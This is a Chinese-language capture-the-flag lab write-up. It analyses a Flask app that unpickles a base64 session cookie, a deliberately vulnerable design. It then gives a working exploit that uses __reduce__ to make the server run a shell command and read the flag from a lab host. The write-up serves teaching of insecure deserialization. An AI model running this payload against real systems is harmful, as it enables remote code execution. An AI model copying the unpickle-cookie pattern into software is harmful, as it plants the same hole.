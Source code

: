 # LAB - Pickle
###### tags: `資安` `Web`

## 題目解析
畫面中可以看到有 Name 跟 Age 的輸入框，點底下那行字可以看到網頁 source code。

![](https://i.imgur.com/x4uo03c.png)
``` python
from flask import Flask, request, make_response, redirect, send_file
import base64
import pickle

app = Flask(__name__)


@app.route("/sauce")
def sauce():
    return send_file(__file__, mimetype="text/plain")


@app.route("/")
def main():
    session = request.cookies.get("session")
    if session == None:
        return '<form action="/login" method="POST">' +\
            '<p>Name: <input name="name" type="text"></p>' +\
            '<p>Age: <input name="age" type="number"></p>' +\
            '<button>Submit</button></form><hr><a href="/sauce">Source code</a>'

    else:
        user = pickle.loads(base64.b64decode(session))
        return f'<p>Name: {user["name"]}</p><p>Age: {user["age"]}</p>'


@app.route("/login", methods=['POST'])
def login():
    user = base64.b64encode(pickle.dumps({
        "name": request.form.get('name'),
        "age": int(request.form.get('age'))
    }))
    resp = make_response(redirect('/'))
    resp.set_cookie("session", user)
    return resp
```

## 解題流程
可以從 source code 看到如果你沒有 cookie 就會讓你輸入 Name 跟 Age 並 POST 到 login 頁面，login 頁面會顯示你的輸入然後做 pickle 序列化轉 base64 存成 id 為 "session" 的 cookie。

若你有 cookie 就會讀值過 base64 decode 然後 pickle 反序列化顯示用戶資訊，而這邊就能利用 pickle 反序列化漏洞來做惡意 payload 的植入。

pickle 在反序列化會自動去執行 \_\_reduce\_\_() 的 magic function，因此我們只要 create 一個 class 並宣告 \_\_reduce\_\_()，按照 \_\_reduce\_\_() 格式規定 return (object, (argv ...)) (雙 tuple)，就能做我們想做的事。

這邊就直接用 subprocess 接收字符串命令並返回結果，將我們想做的指令跟 age 一起打包做 pickle 序列化和 base64 encode，當成 cookie 內容傳給 server，server 會自動做 base64 decode 和 pickle 反序列化，就會自行執行 subprocess.getoutput(指令)，先用 ls 試有沒有成功，成功後稍微試一下就看到 FLAG 放在根目錄。
```python
import pickle
import os
import base64
import pty

command = 'cd /; cat flag_5fb2acebf1d0c558'

class exp:
    def __reduce__(self):
        return (__import__('subprocess').getoutput, (command, ))
    
cookie = base64.b64encode(pickle.dumps({"age":1, "name":exp()})).decode()
os.system(f"curl http://h4ck3r.quest:8600/ --cookie 'session={cookie}'")
```
## FLAG 截圖
![](https://i.imgur.com/WpbXVUU.png)
